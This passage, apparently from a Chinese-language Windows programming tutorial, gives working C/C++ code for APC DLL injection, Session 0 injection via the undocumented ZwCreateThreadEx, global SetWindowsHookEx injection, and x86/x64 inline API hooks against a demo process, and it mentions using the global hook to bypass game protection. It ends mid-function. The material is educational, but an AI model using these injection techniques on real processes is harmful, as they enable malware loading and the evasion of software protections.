    PVOID pDllAddr = VirtualAllocEx(hProcess, NULL, nDllLen, MEM_COMMIT, PAGE_READWRITE);
    if (pDllAddr == NULL)
    {
        CloseHandle(hProcess);
        return FALSE;
    }

    // 根据不同位数写出DLL文件路径
#ifdef _WIN64
    size_t dwWriteNum = 0;
    WriteProcessMemory(hProcess, pDllAddr, szDllName, nDllLen, &dwWriteNum);
#else
    DWORD dwWriteNum = 0;
    WriteProcessMemory(hProcess, pDllAddr, szDllName, nDllLen, &dwWriteNum);
#endif
    CloseHandle(hProcess);

    THREADENTRY32 te = { 0 };
    te.dwSize = sizeof(THREADENTRY32);

    // 得到线程快照
    HANDLE handleSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (INVALID_HANDLE_VALUE == handleSnap)
    {
        CloseHandle(hProcess);
        return FALSE;
    }

    // 得到LoadLibraryA函数的地址
    FARPROC pFunAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    DWORD dwRet = 0;

    // 得到第一个线程
    if (Thread32First(handleSnap, &te))
    {
        do
        {
            // 进程ID对比是否为传入的进程
            if (te.th32OwnerProcessID == dwPid)
            {
                // 打开线程，得到线程句柄
                HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
                if (hThread)
                {
                    // 向线程插入APC队列
                    dwRet = QueueUserAPC((PAPCFUNC)pFunAddr, hThread, (ULONG_PTR)pDllAddr);

                    // 关闭句柄
                    CloseHandle(hThread);
                }
            }
            // 循环下一个线程
        } while (Thread32Next(handleSnap, &te));
    }

    // 关闭句柄
    CloseHandle(handleSnap);
    return TRUE;
}

int main(int argc, char *argv[])
{
    DWORD pid = FindProcessID("lyshark.exe");
    std::cout << "进程PID: " << pid << std::endl;

    bool flag = ApcInjectDll(pid, (char *)"d://hook.dll");
    std::cout << "注入状态: " << flag << std::endl;

    return 0;
}
```

### 3.3 突破会话0强力注入

Session是`Windows`系统的一个安全特性，该特性引入了针对用户体验提高的安全机制，即拆分Session 0和用户会话，这种拆分`Session 0`和`Session 1`的机制对于提高安全性非常有用，这是因为将桌面服务进程，驱动程序以及其他系统级服务取消了与用户会话的关联，从而限制了攻击者可用的攻击面。

由于`DLL`注入在`Session 0`中的注入机制不同于在用户会话中的注入机制，因此需要特别的考虑和处理。如果需要执行DLL注入，必须使用`过度级别安全`机制解决`Session 0`上下文问题，并且在设计安全方案时，必须考虑`Session 0`和`Session 1`之间的区别。

在之前的远程线程注入章节中，我们通过使用`CreateRemoteThread()`这个函数来完成线程注入，此方式可以注入普通的进程，但却无法注入到系统进程中，因为系统进程是处在`SESSION0`高权限级别的会话层，由于`CreateRemoteThread()`底层会调用`ZwCreateThreadEx()`这个未公开的内核函数，所以当我们调用该函数的底层函数时则可实现突破Session0的注入机制。

由于该内核函数并未被导出，所以我们必须找到该函数的原型定义，并通过`GetProcAddress`获取到`ntdll.dll`模块下的`ZwCreateThreadEx`的函数地址，并通过`ZwCreateThreadEx`函数指针直接调用模块；
```c
#ifdef _WIN64
  typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    LPVOID ObjectAttributes,
    HANDLE ProcessHandle,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    ULONG CreateThreadFlags,
    SIZE_T ZeroBits,
    SIZE_T StackSize,
    SIZE_T MaximumStackSize,
    LPVOID pUnkown);
#else
  typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    LPVOID ObjectAttributes,
    HANDLE ProcessHandle,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    BOOL CreateSuspended,
    DWORD dwStackSize,
    DWORD dw1,
    DWORD dw2,
    LPVOID pUnkown);
#endif
```

当拿到`ZwCreateThreadEx`函数指针时，则接下来就可以调用了，ZwCreateThreadEx 可以用于创建一个远程线程，即在目标进程中创建一个线程，并在这个线程中运行指定的代码。与`CreateRemoteThread`不同，`ZwCreateThreadEx`可以用于创建一个在指定进程的上下文之外的线程，即可以创建一个与指定进程无关的线程。

它的函数原型定义如下：
```c
NTSYSAPI NTSTATUS NTAPI ZwCreateThreadEx(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    HANDLE ProcessHandle,
    PVOID StartRoutine,
    PVOID Argument,
    ULONG CreateFlags,
    SIZE_T ZeroBits,
    SIZE_T StackSize,
    SIZE_T MaximumStackSize,
    PPS_ATTRIBUTE_LIST AttributeList);
```

其参数说明如下：

 - ThreadHandle 用于返回创建的线程句柄的指针。
 - DesiredAccess 用于指定线程句柄的访问权限。
 - ObjectAttributes 一个指向 OBJECT_ATTRIBUTES 结构的指针，指定线程对象的对象名和安全性属性。
 - ProcessHandle 目标进程的句柄，即在哪个进程中创建新线程。
 - StartRoutine 一个指向新线程的入口点的指针。
 - Argument 第二个参数传递给新线程的指针。
 - CreateFlags 指定创建线程的属性，如堆栈大小、创建标志、线程属性等。
 - ZeroBits 保留参数，应该传递0。
 - StackSize 线程堆栈大小。
 - MaximumStackSize 线程堆栈的最大大小。
 - AttributeList 指向结构 PS_ATTRIBUTE_LIST，该结构可以用于在线程创建时指定各种属性。

具备了上述基本条件那么注入代码的事项将变得非常容易，如下代码是这个注入程序的完整实现流程，读者可自行测试注入效果；
```c
#include <windows.h>
#include <iostream>
#include <TlHelp32.h>
#include <tchar.h>

// 传入进程名称返回该进程PID
DWORD FindProcessID(LPCTSTR szProcessName)
{
    DWORD dwPID = 0xFFFFFFFF;
    HANDLE hSnapShot = INVALID_HANDLE_VALUE;
    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);
    hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, NULL);
    Process32First(hSnapShot, &pe);
    do
    {
        if (!_tcsicmp(szProcessName, (LPCTSTR)pe.szExeFile))
        {
            dwPID = pe.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapShot, &pe));
    CloseHandle(hSnapShot);
    return dwPID;
}

// 强力注入
BOOL ZwCreateThreadExInjectDll(DWORD dwProcessId, char* pDllName)
{
    HANDLE hProcess = NULL;
    SIZE_T dwSize = 0;
    LPVOID pDllAddr = NULL;
    FARPROC pFuncProcAddr = NULL;
    HANDLE hRemoteThread = NULL;
    DWORD dwStatus = 0;

    // 打开注入进程
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
    if (NULL == hProcess)
    {
        return FALSE;
    }

    // 在注入进程中申请内存
    dwSize = sizeof(char) + lstrlen(pDllName);
    pDllAddr = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
    if (NULL == pDllAddr)
    {
        return FALSE;
    }

    // 向申请的内存中写入数据
    if (FALSE == WriteProcessMemory(hProcess, pDllAddr, pDllName, dwSize, NULL))
    {
        return FALSE;
    }

    // 加载ntdll.dll模块
    HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
    if (NULL == hNtdllDll)
    {
        return FALSE;
    }

    // 获取LoadLibraryA函数地址
    pFuncProcAddr = GetProcAddress(::GetModuleHandle("Kernel32.dll"), "LoadLibraryA");
    if (NULL == pFuncProcAddr)
    {
        return FALSE;
    }

    // 获取ZwCreateThread函数地址
#ifdef _WIN64
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        ULONG CreateThreadFlags,
        SIZE_T ZeroBits,
        SIZE_T StackSize,
        SIZE_T MaximumStackSize,
        LPVOID pUnkown);
#else
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        BOOL CreateSuspended,
        DWORD dwStackSize,
        DWORD dw1,
        DWORD dw2,
        LPVOID pUnkown);
#endif
    
    typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)::GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
    if (NULL == ZwCreateThreadEx)
    {
        return FALSE;
    }
    // 调用函数执行强力注入
    dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess,
        (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDllAddr, 0, 0, 0, 0, NULL);
    if (NULL == hRemoteThread)
    {
        return FALSE;
    }

    // 关闭句柄
    CloseHandle(hProcess);
    FreeLibrary(hNtdllDll);
    return TRUE;
}

int main(int argc, char *argv[])
{
    DWORD pid = FindProcessID("lyshark.exe");
    std::cout << "进程PID: " << pid << std::endl;

    bool flag = ZwCreateThreadExInjectDll(pid, (char *)"d://hook.dll");
    std::cout << "注入状态: " << flag << std::endl;

    return 0;
}
```

### 3.4 全局消息钩子注入

SetWindowHookEx 是`Windows`系统的一个函数，可用于让一个应用程序安装全局钩子，但读者需要格外注意该方法安装的钩子会由操作系统注入到所有可执行进程内，虽然该注入方式可以用于绕过游戏保护实现注入，但由于其属于全局注入所以所有的进程都会受到影响，而如果想要解决这个问题，则需要在`DllMain()`也就是动态链接库开头位置进行判断，如果是我们所需操作的进程则执行该DLL模块内的功能，如果不是则自动跳过不执行任何操作即可实现指定进程的注入方式。

首先我们先来看一下该函数的原型定义；
```c
HHOOK SetWindowsHookEx(
  int       idHook,
  HOOKPROC  lpfn,
  HINSTANCE hMod,
  DWORD     dwThreadId
);
```

参数说明如下：

 - idHook：钩子类型，标识了钩子函数要监视哪种事件。可以是整数值或预定义的常量值（如WH_MOUSE、WH_KEYBOARD、WH_SHELL等）。
 - lpfn：钩子函数的地址。
 - hMod：把钩子函数插入挂钩链中的应用程序的句柄，该参数通常被设置为包含钩子函数代码的DLL模块的句柄。
 - dwThreadId：要设置钩子的线程标识符或进程标识符，如果为 0，则钩子通常与所有线程的输入消息联系起来。

在安装全局消息钩子时，读者需要在DLL中对外暴漏两个接口，其中`SetHook()`用于设置钩子，`UnHook()`则用于取消钩子，在DLL入口处，通过调用`GetFristModuleName()`我们可以判断当前进程是否为我们所需操作的进程，如果是则执行进程内的流程，如果不是则跳过执行，这个流程可以描述为如下样子，读者可自行将如下代码编译为DLL文件。
```c
#include <iostream>
#include <TlHelp32.h>
#include <windows.h>
#include <tchar.h>

// 指定全局变量
HHOOK global_Hook;

// 判断是否是需要注入的进程
BOOL GetFristModuleName(DWORD Pid, LPCTSTR ExeName)
{
  MODULEENTRY32 me32 = { 0 };
  me32.dwSize = sizeof(MODULEENTRY32);
  HANDLE hModuleSnap = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, Pid);

  if (INVALID_HANDLE_VALUE != hModuleSnap)
  {
    // 先拿到自身进程名称
    BOOL bRet = Module32First(hModuleSnap, &me32);

    // 对比如果是需要注入进程,则返回真
    if (!_tcsicmp(ExeName, (LPCTSTR)me32.szModule))
    {
      CloseHandle(hModuleSnap);
      return TRUE;
    }
    CloseHandle(hModuleSnap);
    return FALSE;
  }
  CloseHandle(hModuleSnap);
  return FALSE;
}

// 获取自身DLL名称
char* GetMyDllName()
{
  char szFileFullPath[MAX_PATH], szProcessName[MAX_PATH];

  // 获取文件路径
  GetModuleFileNameA(NULL, szFileFullPath, MAX_PATH);
  
  int length = strlen(szFileFullPath);

  // 从路径后面开始找\，即倒着找右斜杠
  for (int i = length - 1; i >= 0; i--)
  {
    // 找到第一个\就可以马上获取进程名称了
    if (szFileFullPath[i] == '\\')
    {
      i++;
      // 结束符\0不能少 即i=length
      for (int j = 0; i <= length; j++)
      {
        szProcessName[j] = szFileFullPath[i++];
      }
      break;
    }
  }
  return szProcessName;
}

// 设置全局消息回调函数
LRESULT CALLBACK MyProc(int nCode, WPARAM wParam, LPARAM lParam)
{
  return CallNextHookEx(global_Hook, nCode, wParam, lParam);
}

// 安装全局钩子 此处的 GetMyDllName()函数 可以是外部其他DLL,可将任意DLL进行注入
extern "C" __declspec(dllexport) void SetHook()
{
  global_Hook = SetWindowsHookEx(WH_CBT, MyProc, GetModuleHandleA(GetMyDllName()), 0);
}

// 卸载全局钩子
extern "C" __declspec(dllexport) void UnHook()
{
  if (global_Hook)
  {
    UnhookWindowsHookEx(global_Hook);
  }
}

// DLL 主函数
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
  switch (ul_reason_for_call)
  {
    case DLL_PROCESS_ATTACH:
    {
      // 当DLL被加载时触发,判断当前自身父进程是否为 lyshark.exe 
      BOOL flag = GetFristModuleName(GetCurrentProcessId(), TEXT("lyshark.exe"));
      if (flag == TRUE)
      {
        MessageBoxA(0, "hello lyshark", 0, 0);
      }
      break;
    }
    case DLL_THREAD_ATTACH:
    {
      break;
    }
    case DLL_THREAD_DETACH:
    {
      break;
    }
    case DLL_PROCESS_DETACH:
    {
      // DLL卸载时自动清理
      UnHook();
      break;
    }
    default:
      break;
  }
  return TRUE;
}
```

接着我们需要编写一个专门用来加载该DLL的程序，在调用DLL之前，我们需要通过`LoadLibrary()`将此模块加载到内存中，并通过`GetProcAddress(hMod, "SetHook")`获取到该模块的中`SetHook`函数的内存地址，最后直接调用`SetHook()`安装一个全局钩子，实现安装的代码流程如下所示；
```c
#include <iostream>
#include <windows.h>

int main(int argc, char* argv[])
{
    HMODULE hMod = LoadLibrary(TEXT("d://hook.dll"));

    // 挂钩
    typedef void(*pSetHook)(void);
    pSetHook SetHook = (pSetHook)GetProcAddress(hMod, "SetHook");
    SetHook();

    while (1)
    {
        Sleep(1000);
    }

    // 卸载钩子
    typedef BOOL(*pUnSetHook)(HHOOK);
    pUnSetHook UnsetHook = (pUnSetHook)GetProcAddress(hMod, "UnHook");
    pUnSetHook();

    FreeLibrary(hMod);
    return 0;
}
```

## 第四篇：应用层Hook挂钩技术

InlineHook 是一种计算机安全编程技术，其原理是在计算机程序执行期间进行拦截、修改、增强现有函数功能。它使用钩子函数（也可以称为回调函数）来截获程序执行的各种事件，并在事件发生前或后进行自定义处理，从而控制或增强程序行为。Hook技术常被用于系统加速、功能增强、外挂开发等领域。本章将重点讲解Hook是如何实现的，并手动封装实现自己的Hook挂钩模板。

### 4.1 钩子技术原理

首先我们来探索一下Hook技术是如何实现的，如下图所示是一个简单的弹窗程序，当读者点击测试弹窗按钮时则会弹出一个`MessageBox`提示窗口，本次实现目标很简单，通过向目标内注入一个DLL库，实现Hook挂钩住`MessageBox`弹窗，从而实现去除弹窗的目的；



我们先来看看如何实现Hook思路；

 - 1.调用`GetModuleHandle`函数来获取到`user32.dll`模块的基址
 - 2.调用`GetProcAddress`函数获取到`MessageBoxA`弹窗的基址
 - 3.调用`VirtualProtect`来修改`MessageBoxA`前5个字节内存属性
 - 4.计算`Dest - MsgBox - 5`重定位跳转地址，并写入`JMP`跳转指令
 - 5.计算`Dest + Offset + 5 = MsgBox +5`得到需要跳转回`RET`的位置
 - 6.最后调用`VirtualProtect`来将内存属性修改为原始状态

我们载入带有`MessageBoxA`弹窗的程序,然后在`x64dbg`上按下`Ctrl+G`输入`MessageBoxA`找到我们需要Hook的位置（或者说替换），如下图所示为了完成弹窗转向功能，只需要在函数开头写入`jmp`无条件跳转指令即可，在32位系统中`JMP`指令默认占用5个字节，前三条指令恰好5个字节，为了能够保持堆栈平衡，我们需要记下前三条指令，并在自己的中转函数中对其进行补齐。



此外，我们还需要计算出程序的返回地址，使用`0x76600BE5 - 0x76600BA0 = 0x45`从而得出返回地址就是基址加上`0x45`，这里的返回地址其实就是返回到原`MessageBoxA`弹窗的`RET 0x10`的位置`76600BE6`，从这里可以看出屏蔽弹窗的原理就是通过中转函数跳过了原始弹窗函数的执行。

由于开头位置被替换为了我们自己的`Transfer()`函数，当程序中弹窗被调用时默认会路由到我们自己的函数内，首先执行补齐原函数的替换部分，并执行自定义功能区中的增加内容，当执行结束后则通过`jmp ebx`的方式跳转回原函数的`ret 0x10`的位置处，从而实现增加功能的目的。这里读者需要注意`__declspec(naked)`的意思是不添加任何的汇编修饰，当使用了此修饰符时则编译器会只编译我们自己的汇编指令，并不会增加默认的函数开场或离场原语。
```c
__declspec(naked) void Transfer()
{
  __asm{
    mov edi, edi
    push ebp
    mov ebp, esp
    // 自定义功能区
    mov ebx, jump     // 取出跳转地址
    jmp ebx           // 无条件转向
  }
}
```

通过应用上述案例中的知识点我们能很容易的实现对弹窗的替换功能，以下代码中实现了对`MessageBoxA`弹窗的屏蔽功能，也就是通过跳过弹窗实现流程实现的一种劫持方法，读者可自行编译这段DLL程序，但需要注意一点，读者在编译DLL时应该关闭DLL的`DEP`以及`ASLR`模式，否则会出现无法定位的问题。
```c
#include <Windows.h>
#include <stdio.h>

DWORD jump = 0;

// 不添加任何的汇编修饰
__declspec(naked) void Transfer()
{
    __asm
    {
        mov edi, edi
        push ebp
        mov ebp, esp
        mov ebx, jump     // 取出跳转地址
        jmp ebx           // 无条件转向
    }
}

// DLL程序入口地址
bool APIENTRY DllMain(HANDLE handle, DWORD dword, LPVOID lpvoid)
{
    // 取进程内模块基址
    HMODULE hwnd = GetModuleHandle(TEXT("user32.dll"));
    DWORD base = (DWORD)GetProcAddress(hwnd, "MessageBoxA");
    DWORD oldProtect = 0;

    // 将内存设置为可读可写可执行状态,并将原属性保存在oldProtect方便恢复
    if (VirtualProtect((LPVOID)base, 5, PAGE_EXECUTE_READWRITE, &oldProtect))
    {
        DWORD value = (DWORD)Transfer - base - 5;    // 计算出需要Hook的地址
        jump = base + 0x45;                          // 计算出返回地址

        // 替换头部汇编代码
        __asm
        {
            mov eax, base
            mov byte ptr[eax], 0xe9        // e9 = jmp 指令机器码
            inc eax                        // 递增指针
            mov ebx, value                 // 需要跳转到的地址
            mov dword ptr[eax], ebx
        }

        // 恢复内存的原始属性
        VirtualProtect((LPVOID)base, 5, oldProtect, &oldProtect);
    }
    return true;
}
```

读者可通过注入软件将`hook.dll`动态链接库注入到进程内，此时我们可以再次观察`0x76600BA0`位置处的代码片段，读者应该能看到已经被JMP替换，如下图所示；



继续跟进则读者能看到，在跳转指令的下方则是我们自己补齐的汇编指令，此处由于没有做任何事就被返回了，这就导致当读者再次点击弹窗时，弹窗失效；



当我们需要替换程序标题时同样可是使用该方式实现，一般来说程序设置标题会调用`SetWindowTextA`函数，我们可以拦截这个函数，并传入自定义的窗口名称，从而实现修改指定窗口的标题的目的，代码只是在上面代码的基础上稍微改一下就能实现效果，只要程序使用了该函数设置标题，则可以实现替换的目的；
```c
#include <Windows.h>
#include <stdio.h>

DWORD jump = 0;

// 汇编中转函数
__declspec(naked) bool _stdcall Transfer(HWND hwnd, LPCSTR lpString)
{
    __asm
    {
        mov edi, edi
        push ebp
        mov ebp, esp
        mov ebx, jump
        jmp ebx
    }
}

// 自己的设置窗体标题函数
bool __stdcall MySetWindowTextA(HWND hwnd, LPCSTR lpString)
{
    char * lpText = "LyShark 修改版";
    return Transfer(hwnd, lpText);
}

// DLL程序入口地址
bool APIENTRY DllMain(HANDLE handle, DWORD dword, LPVOID lpvoid)
{
    HMODULE hwnd = GetModuleHandle(TEXT("user32.dll"));
    DWORD base = (DWORD)GetProcAddress(hwnd, "SetWindowTextA");
    DWORD oldProtect = 0;

    if (VirtualProtect((LPVOID)base, 5, PAGE_EXECUTE_READWRITE, &oldProtect))
    {
        DWORD value = (DWORD)MySetWindowTextA - base - 5;
        jump = base + 5;
        __asm
        {
            mov eax, base
            mov byte ptr[eax], 0xe9
            inc eax
            mov ebx, value
            mov dword ptr[eax], ebx
        }
        VirtualProtect((LPVOID)base, 5, oldProtect, &oldProtect);
    }
    return true;
}
```

### 4.2 x32 Inline Hook

上述代码片段对于实现功能来说还是过于复杂，我们可以将上述代码定义为`MyHook`类，构造函数用来初始化，析构函数用来恢复钩子，在`Hook()`成员函数中完成了3项工作，首先是获得了被HOOK函数的函数地址，接下来是保存了被HOOK函数的前5字节，最后是用构造好的跳转指令来修改被HOOK函数的前5字节的内容。

如下封装中实现了三个类内函数，其中`Hook()`用于开始Hook函数，此函数接收三个参数，参数1为需要Hook的动态链接库名，参数2为需要挂钩的函数名，参数3为自定以中转函数地址，其中`UnHook()`用于恢复函数挂钩，最后的`ReHook()`用于重新挂钩，以下是该类提供的功能的简要摘要：

 - m_pfnRig：成员变量，在挂接之前存储原始函数地址。
 - m_bOldBytes：成员变量，用于存储函数入口代码的原始5个字节。
 - m_bNewBytes：成员变量，用于存储将替换原始函数代码的内联钩子代码。
 - Hook（）：成员函数，通过将函数入口代码的前5个字节替换为JMP指令，将控制流重定向到指定的钩子函数，从而在指定的模块中钩子指定的函数。此函数返回一个BOOL，指示挂钩是否成功。
 - UnHook（）：成员函数，用于删除钩子并恢复原始函数代码。此函数返回一个BOOL，指示解除挂钩是否成功。
 - ReHook（）：成员函数，它使用之前存储的钩子代码重新钩子之前未钩子的函数。此函数返回一个BOOL，指示重新挂钩是否成功。

```c
// 自己封装的Hook组件
class MyHook
{
    public:
        PROC m_pfnOrig;       // 保存函数地址
        BYTE m_bOldBytes[5];  // 保存函数入口代码
        BYTE m_bNewBytes[5];  // 保存Inlie Hook代码
    public:

        // 构造函数
        MyHook()
        {
            m_pfnOrig = NULL;
            ZeroMemory(m_bOldBytes, 5);
            ZeroMemory(m_bNewBytes, 5);
        }

        // 析构函数清理现场
        ~MyHook()
        {
            UnHook();
            m_pfnOrig = NULL;
            ZeroMemory(m_bOldBytes, 5);
            ZeroMemory(m_bNewBytes, 5);
        }

        // 开始挂钩
        BOOL Hook(LPSTR pszModuleName, LPSTR pszFuncName, PROC pfnHookFunc)
        {
            BOOL bRet = FALSE;

            // 获取指定模块中函数的地址
            m_pfnOrig = (PROC)GetProcAddress(GetModuleHandleA(pszModuleName), pszFuncName);

            if (m_pfnOrig != NULL)
            {
                // 保存该地址处 5 字节的内容
                DWORD dwNum = 0;
                ReadProcessMemory(GetCurrentProcess(), m_pfnOrig, m_bOldBytes, 5, &dwNum);

                // 构造 JMP 指令
                m_bNewBytes[0] = '\xe9'; // jmp Opcode

                // pfnHookFunc 是 HOOK 后的目标地址
                // m_pfnOrig 是原来的地址
                // 5 是指令长度
                *(DWORD*)(m_bNewBytes + 1) = (DWORD)pfnHookFunc - (DWORD)m_pfnOrig - 5;

                // 将构造好的地址写入该地址处
                WriteProcessMemory(GetCurrentProcess(), m_pfnOrig, m_bNewBytes, 5, &dwNum);
                bRet = TRUE;
            }
            return bRet;
        }

        // 取消挂钩
        BOOL UnHook()
        {
            if (m_pfnOrig != 0)
            {
                DWORD dwNum = 0;
                WriteProcessMemory(GetCurrentProcess(), m_pfnOrig, m_bOldBytes, 5, &dwNum);
            }
            return TRUE;
        }

        // 重新挂钩
        BOOL ReHook()
        {
            BOOL bRet = FALSE;
            if (m_pfnOrig != 0)
            {
                DWORD dwNum = 0;
                WriteProcessMemory(GetCurrentProcess(), m_pfnOrig, m_bNewBytes, 5, &dwNum);
                bRet = TRUE;
            }
            return bRet;
        }
};
```
同样我们以替换自身弹窗为例子具体讲解一下该库如何使用，如下代码中首先我们自定义一个`MyMessageBoxA`函数，该函数的原型读者可通过微软官方文档获取，以下是`MessageBoxA`函数的原型（函数声明）：
```c
int MessageBoxA(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);
```

其中，参数的含义如下：

 - hWnd: 指向包含消息框的窗口的句柄，通常为父窗口的句柄。可以设为NULL，表示没有父窗口。
 - lpText: 指向要显示的消息文本的字符串指针。
 - lpCaption: 指向要显示在消息框标题栏上的字符串指针，通常用于指定消息框的标题。
 - uType: 用于指定消息框的按钮和图标样式，可以使用预定义的常量值进行设置，如MB_OK、MB_YESNO等。

有了函数原型声明部分读者则可以自己实现一个`MyMessageBoxA`函数，需注意参数传递必须与原函数保持一致，在自定以函数内部我们首先通过`MsgHook.UnHook();`恢复之前的钩子，并调用原函数实现功能替换，当调用结束后记得使用`MsgHook.ReHook();`重新挂钩恢复钩子。
```c
// 定义全局类
MyHook MsgHook;

// 定义自定义Hook函数
int WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType)
{
    // 先来恢复Hook 之所以要恢复是因为我们需要调用原始的MsgBox弹窗
    MsgHook.UnHook();

    MessageBoxA(hWnd, "hi hook api", lpCaption, uType);

    // 弹窗完成后重新Hook
    MsgHook.ReHook();
    return 0;
}
```
在主函数中我们通过调用`MsgHook.Hook()`函数，挂钩住`user32.dll`模块内的`MessageBoxA`函数，并将该函数请求转发到`MyMessageBoxA`上面做处理，当此时调用`MessageBoxA`时读者可观察弹出提示是否为我们所期望的，最后通过`MsgHook.UnHook();`用于解除钩子；

```c
// 调用Hook组件
int main(int argc, char* argv[])
{
    // 开始Hook
    MsgHook.Hook((char *)"user32.dll", (char *)"MessageBoxA", (PROC)MyMessageBoxA);

    // 调用函数
    MessageBoxA(NULL, "hello lyshark", "Msg", MB_OK);

    // 结束Hook
    MsgHook.UnHook();
    return 0;
}
```

读者可自行运行上述代码，当尝试调用`MessageBox`函数并传入`hello lyshark`参数时，输出的结果却变成了`hi hook api`如下图所示，则说明内联挂钩生效了。



### 4.3 x64 Inline Hook

32位钩子的封装实现详细读者已经能够理解了，接着我们来实现64位钩子的封装，64位与32位系统之间无论从寻址方式，还是语法规则都与x32架构有着本质的不同，由于64位编译器无法直接内嵌汇编代码，导致我们只能调用C库函数内嵌机器码来实现Hook的中转。

首先实现去`MessageBox`弹窗，由于64位编译器无法直接内嵌汇编代码，所以在我们需要Hook时只能将跳转机器码以二进制字节方式写死在程序里，如下代码是一段去弹窗演示案例。
```c
#include <stdio.h>
#include <Windows.h>

BYTE OldCode[12] = { 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 };
BYTE HookCode[12] = { 0x48, 0xB8, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0xFF, 0xE0 };
DWORD_PTR base;

// 自己实现中转函数
int WINAPI MyMessageBoxW(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType)
{
  return 1;
}

int main(int argc,char * argv[])
{
  HMODULE hwnd = GetModuleHandle(TEXT("user32.dll"));
  DWORD_PTR base = (DWORD_PTR)GetProcAddress(hwnd, "MessageBoxW");
  DWORD OldProtect;

  if (VirtualProtect((LPVOID)base, 12, PAGE_EXECUTE_READWRITE, &OldProtect))
  {
    memcpy(OldCode, (LPVOID)base, 12);                  // 拷贝原始机器码指令
    *(PINT64)(HookCode + 2) = (INT64)&MyMessageBoxW;    // 填充90为指定跳转地址
  }
  memcpy((LPVOID)base, &HookCode, sizeof(HookCode));      // 拷贝Hook机器指令

  MessageBoxW(NULL, L"hello lyshark", NULL, NULL);

  return 0;
}
```
接着我们在上面代码的基础上继续进行完善，添加恢复钩子的功能，该功能时必须要有的，因为我们还是需要调用原始的弹窗代码，所以要在调用时进行暂时恢复，调用结束后再继续Hook挂钩。
```c
#include <stdio.h>
#include <Windows.h>

void Hook();
void UnHook();

BYTE Ori_Code[12] = { 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 };
BYTE HookCode[12] = { 0x48, 0xB8, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0xFF, 0xE0 };

/* Hook 机器码的原理如下所示
MOV RAX, 0x9090909090909090
JMP RAX
*/

// 定义函数指针
static int (WINAPI *OldMessageBoxW)(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType) = MessageBoxW;

// 执行自己的弹窗
int WINAPI MyMessageBoxW(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType)
{
  UnHook();                                                                  // 恢复Hook
  int ret = OldMessageBoxW(hWnd, TEXT("Hook Inject"), lpCaption, uType);     // 调用原函数
  Hook();                                                                    // 继续hook
  return ret;
}

// 开始Hook
void Hook()
{
  DWORD OldProtect;
  if (VirtualProtect(OldMessageBoxW, 12, PAGE_EXECUTE_READWRITE, &OldProtect))
  {
    memcpy(Ori_Code, OldMessageBoxW, 12);               // 拷贝原始机器码指令
    *(PINT64)(HookCode + 2) = (INT64)&MyMessageBoxW;    // 填充90为指定跳转地址
  }
  memcpy(OldMessageBoxW, &HookCode, sizeof(HookCode));    // 拷贝Hook机器指令
}

// 结束Hook
void UnHook()
{
  memcpy(OldMessageBoxW, &Ori_Code, sizeof(Ori_Code));    // 恢复hook原始代码
}

int main(int argc, char *argv [])
{
  Hook();
  MessageBoxW(NULL, TEXT("hello lyshark"), TEXT("MsgBox"), MB_OK);
  UnHook();
  MessageBoxW(NULL, TEXT("hello lyshark"), TEXT("MsgBox"), MB_OK);

  return 0;
}
```
将上面所写的代码进行函数化封装，实现一个完整的钩子处理程序。代码如下所示。
```c
#include <stdio.h>
#include <Windows.h>

BYTE OldCode[12] = { 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 };
BYTE HookCode[12] = { 0x48, 0xB8, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0xFF, 0xE0 };

void Hook(LPCWSTR lpModule, LPCSTR lpFuncName, LPVOID lpFunction)
{
  DWORD_PTR FuncAddress = (UINT64)GetProcAddress(GetModuleHandle(lpModule), lpFuncName);
  DWORD OldProtect = 0;

